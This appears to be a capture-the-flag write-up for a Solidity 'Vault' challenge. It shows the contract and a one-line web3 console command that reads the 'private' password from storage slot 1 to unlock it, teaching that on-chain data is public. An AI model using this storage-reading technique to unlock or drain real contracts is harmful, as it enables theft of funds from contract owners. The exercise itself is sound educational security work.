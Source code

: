 <img src="vault.png" alt="vault" />

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

<hr />

# Hack

Slot 0 occupies bool locked and as password is bytes32 it cannot be stored at slot 0 so it is stored at slot 1 and to get the password at slot 1 and unlock the contract we can run this command in the console. Everything on blockchain can be read even if its private.

```
await contract.unlock(await web3.eth.getStorageAt(contract.address, 1));
```